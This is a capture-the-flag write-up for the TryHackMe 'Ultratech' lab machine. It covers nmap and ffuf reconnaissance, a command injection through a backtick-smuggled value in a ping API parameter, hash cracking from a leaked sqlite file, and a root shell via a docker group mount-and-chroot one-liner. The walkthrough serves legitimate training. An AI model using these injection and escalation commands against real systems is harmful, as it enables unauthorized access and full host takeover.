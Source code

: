 ```yaml
---
date: 2020-05-30 07:41:34
layout: post
title: "Ultratech"
subtitle: 
description: 
image: /writeup/assets/img/ultratech/ultratech.png
optimized_image:
category: tryhackme
tags: medium
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/ultratech1">Link</a> to the machine on tryhackme.

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.119.217
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-09 22:56 IST
Nmap scan report for 10.10.119.217
Host is up (0.44s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops


TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   194.42 ms 10.8.0.1
2   195.05 ms 10.10.119.217

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.09 seconds
```

Since, there were 4 ports open.Started with the most interesting port that is 21. But anonymous login was not allowed.

Went on to the port 8081 and visited the website hosted at that port. The website was for api.
![placeholder](/writeup/assets/img/ultratech/api.png "api")

Nothing much found here so visted the port 31331 which had a website hosted.
![placeholder](/writeup/assets/img/ultratech/homepage.png "home")

Tried to find hidden directories and pages through ffuf.
```bash
ffuf -w wordlist -u http://10.10.119.217/FUZZ
```
![placeholder](/writeup/assets/img/ultratech/dir.png "dir")

The js directory had a api.js script.
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

The script showed two api auth and ping.ping can be used to run commands on the machine.

```bash
http://10.10.117.219/ping?ip=10.9.12.192 `whoami`
```
![placeholder](/writeup/assets/img/ultratech/rce.png "rce")

Running **ls** on the machine through the api shows a file named **utech.db.sqlite**.
Listed contents of it with cat.

The file contained password hashes of two accounts; admin and r00t.

Cracked the hashes and logged in through the auth api as r00t.
```url
http://10.10.119.217:8081/auth?login=r00t&password=n******
```
![placeholder](/writeup/assets/img/ultratech/r00t.png "r00t")

Not much to be found.The creddentials for r00t also worked on ssh and gave the shell.

The r00t user was part of docker group.
```bash
id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

Through the command on GTFObins for docker, tried to get the root shell.
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This failed as there was no image named alpine.

```bash
docker ps
```
This shows there is no image.
```docker ps -a
```
This shows that bash is present as image.

So ran
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

to get the root shell.
![placeholder](/writeup/assets/img/ultratech/root.png "root")

